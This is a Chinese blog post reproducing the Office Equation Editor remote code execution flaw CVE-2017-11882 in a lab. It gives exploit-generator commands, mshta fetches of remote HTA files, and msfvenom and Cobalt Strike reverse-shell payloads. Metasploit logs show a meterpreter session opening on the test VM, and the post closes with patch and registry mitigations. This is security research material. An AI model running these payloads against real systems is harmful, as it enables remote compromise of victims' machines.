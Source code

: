 ```yaml
---
layout: post
title: CVE-2017-11882 微软Office 远程代码执行漏洞复现
comments: false
description: ""
keywords: "Vulnerability"
---
```


最近这段时间CVE-2017-11882挺火的。关于这个漏洞详情分析可以查看:[隐藏17年的Office远程代码执行漏洞POC样本分析（CVE-2017-11882）](http://www.freebuf.com/vuls/154462.html)；

20号有人在twitter上共享了一个POC，[Twitter地址](https://twitter.com/gossithedog/status/932694287480913920)，[POC地址](http://owned.lab6.com/~gossi/research/public/cve-2017-11882/)，后来又有人共享了一个项目[CVE-2017-11882](https://github.com/embedi/CVE-2017-11882)，是通过对rtf文件的修改来实现命令执行的目的，但是有个缺陷，这个项目使用的是使用webdav的方式来执行远程文件的，执行命令被限制在43字节内；

后来Evi1cg师傅对POC进行了修改，使用很方便，利用也很简单，而且添加了109字节的脚本，Github地址：[https://github.com/Ridter/CVE-2017-11882](https://github.com/Ridter/CVE-2017-11882)

## 环境

> 本机：192.168.43.100
> 虚拟机：Microsoft Windows 7 旗舰版 Service Pack 1：192.168.43.103
> Office：2016版

## Usage?

```
python Command43b_CVE-2017-11882.py -c "cmd.exe /c calc.exe" -o test.doc
```

use mshta

```
python Command43b_CVE-2017-11882.py -c "mshta http://site.com/abc" -o test.doc
```

## Demo

![CVE-2017-11881-1.png](/assets/images/2017-11-22/422661511.png)

![CVE-2017-11881-2.png](/assets/images/2017-11-22/1324419186.png)

## 利用 cobaltstrike

添加一个 windows/beacon_http/reverse_http 的listeners;

![CVE-2017-11883-3.png](/assets/images/2017-11-22/1332959268.png)

Attacks-Packages-HTTP Application 选择VBS文件，Generate来生成hta后门文件;

使用`php -S 192.168.43.100:8000`临时开启一个web服务；

也可以使用`python -m SimpleHTTPServer 8000`；

然后使用师傅的脚本来生成doc文件；

![CVE-2017-11882-6.png](/assets/images/2017-11-22/4074375069.png)

HTA依赖于`mshta`解析，而mshta.exe又是系统下自带的，所以并不用免杀就能直接调用执行;

在虚拟机使用office打开这个doc，可看到主机上线；

![CVE-2017-11883-5.png](/assets/images/2017-11-22/3882483235.png)

## 利用 Metasploit

利用`msfvenom`生成hta木马文件；

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.43.100 lport=4444 -f hta-psh > abc.hta  
```

![CVE-2017-11882-7.png](/assets/images/2017-11-22/3738220946.png)

监听即可；

```
msf > use exploit/multi/handler 
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.43.100
LHOST => 192.168.43.100
msf exploit(handler) > set LPORT 4444
LPORT => 4444
msf exploit(handler) > set ExitOnSession false
ExitOnSession => false
msf exploit(handler) > exploit -j -z
[*] Exploit running as background job 0.

[*] Started reverse TCP handler on 192.168.43.100:4444 
```

可以拿到反弹回来的shell，进入到meterpreter；

![CVE-2017-11882-8.png](/assets/images/2017-11-22/3325227771.png)

## PS_shell

Chamd5的msf模块，可直接在本地开启http服务，很方便；

```
msf > search PS_shell

Matching Modules
================

   Name                      Disclosure Date  Rank    Description
   ----                      ---------------  ----    -----------
   exploit/windows/PS_shell                   normal  Microsoft Office Payload Delivery


msf > use exploit/windows/PS_shell
msf exploit(PS_shell) > show option
[-] Invalid parameter "option", use "show -h" for more information
msf exploit(PS_shell) > back
msf > use exploit/windows/PS_shell
msf exploit(PS_shell) > show options 

Module options (exploit/windows/PS_shell):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(PS_shell) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(PS_shell) > set lhost 192.168.43.100
lhost => 192.168.43.100
msf exploit(PS_shell) > set uri
set urihost  set uripath  set uriport  
msf exploit(PS_shell) > set uripath abc
uripath => abc
msf exploit(PS_shell) > exploit 
[*] Exploit running as background job 0.

[*] Started reverse TCP handler on 192.168.43.100:4444 
msf exploit(PS_shell) > [*] Using URL: http://0.0.0.0:8080/abc
[*] Local IP: http://192.168.43.100:8080/abc
[*] Server started.
[*] Place the following DDE in an MS document:
mshta.exe "http://192.168.43.100:8080/abc"
```

利用Command43b_CVE-2017-11882.py生成EXP；

```
➜  CVE-2017-11882 git:(master) ✗ python Command43b_CVE-2017-11882.py -c "mshta.exe http://192.168.43.100:8080/abc" -o test.doc
[*] Done ! output file --> test.doc
```

执行，即可上线；

```
msf exploit(PS_shell) > 
[*] Sending stage (179267 bytes) to 192.168.43.103
[*] Meterpreter session 1 opened (192.168.43.100:4444 -> 192.168.43.103:50160) at 2017-11-30 09:13:13 +0800

msf exploit(PS_shell) > sessions 

Active sessions
===============

  Id  Name  Type                     Information             Connection
  --  ----  ----                     -----------             ----------
  1         meterpreter x86/windows  Go0s-PC\Go0s @ GO0S-PC  192.168.43.100:4444 -> 192.168.43.103:50160 (192.168.43.103)

msf exploit(PS_shell) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > shell
Process 1304 created.
Channel 1 created.
Microsoft Windows [?汾 6.1.7601]
??Ȩ???? (c) 2009 Microsoft Corporation??????????Ȩ????

C:\Windows\system32>whoami
whoami
go0s-pc\go0s
```

## 漏洞影响

可以说影响覆盖全版本了；

> Office 365
> Microsoft Office 2000
> Microsoft Office 2003
> Microsoft Office 2007 Service Pack 3
> Microsoft Office 2010 Service Pack 2
> Microsoft Office 2013 Service Pack 1
> Microsoft Office 2016

## 修复方案

1、微软已经对此漏洞做出了修复。

(1)下载 https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2017-11882，更新补丁进行修补；

(2)开启Windows Update功能，定期对系统进行自动更新；

2、由于该公式编辑器已经17年未做更新，可能存在大量安全漏洞，建议在注册表中取消该模块的注册。

按下Win+R组合键，打开cmd.exe；

对应office版本修改以下注册表路径以后，输入：

```
reg add "HKLM\SOFTWARE\Microsoft\Office\XX.X\Common\COM Compatibility\{0002CE02-0000- 0000-C000-000000000046}" /v "Compatibility Flags" /t REG_DWORD /d 0x400
 
reg add "HKLM\SOFTWARE\Wow6432Node\Microsoft\Office\XX.X\Common\COM Compatibility\{0002CE02-0000-0000-C000-000000000046}" /v "Compatibility Flags" /t REG_DWORD /d 0x400
```

3、火绒对其并没有报警...但传360好像禁止 mshta 执行，直接提示；
